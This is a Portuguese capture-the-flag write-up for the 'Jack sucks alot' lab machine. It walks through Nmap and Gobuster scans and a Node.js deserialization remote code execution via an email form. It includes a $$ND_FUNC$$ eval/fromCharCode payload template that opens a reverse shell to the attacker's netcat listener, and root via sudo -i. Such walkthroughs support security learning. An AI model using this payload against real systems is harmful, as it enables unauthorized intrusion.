






# _**Jack sucks alot CTF**_


## _**Enumeração**_
Primeiro, vamos começar com um scan <mark>Nmap</mark>
> ```bash
> nmap -p [port_range] -A -T5 [ip_address]
> ```


Parece que temos um website  
Vamos realizar um scan com <mark>Gobuster</mark> em busca de diretórios
> ```bash
> gobuster dir --url [ip_address] -w ../seclists/Discovery/Web-Content/common.txt
> ```


Vamos alterar nosso comando para poder realizar o scan
> ```bash
> gobuster dir -u http://[ip_address]/ -w ../seclists/Discovery/Web-Content/common.txt --status-codes-blacklist 200
> ```


## _**Ganhando acesso**_
Por um tempo, fiquei procurando alguma solução para este formulário de e-mail que aparecia na página web  
Até que encontrei uma solução  
Primeiro, [neste link](https://qiita.com/kk0128/items/bc50e81ef1166080dfa9)  
No _write-up_, é mencionado uma vulnerabilidade onde um bug de desserialização do Node.js é explorando  para execução remota de código  
Sendo necessário utilizar a ferramenta <mark>Burp Suite</mark>  
Tentando obter um _shell_ estava parecendo impossível  
Fui buscar outra forma  
E encontrei dda seguinte maneira: 
* Primeiro, realizamos o _download_ do [programa](https://github.com/ajinabraham/Node.Js-Security-Course/blob/master/nodejsshell.py)
* Segundo, executamos colocando nosso IP da VPN e a porta que queremos; teremos uma STRING
* Terceiro, com o resultado, adicionamos a seguinte linha: <mark>_$$ND_FUNC$$_function(){eval.(String(fromCharCode(STRING)))}()</mark>; isso será nosso _payload_
* Quarto, adicionamos o _payload_ no campo de e-mail, já com ```netcat``` escutando


## _**Escalando privilégios**_
Executando o comando ```sudo -l```, temos o retorno abaixo  
Basta executar ```sudo -i``` e temos _root_  



Agora, basta ir atrás das flags!
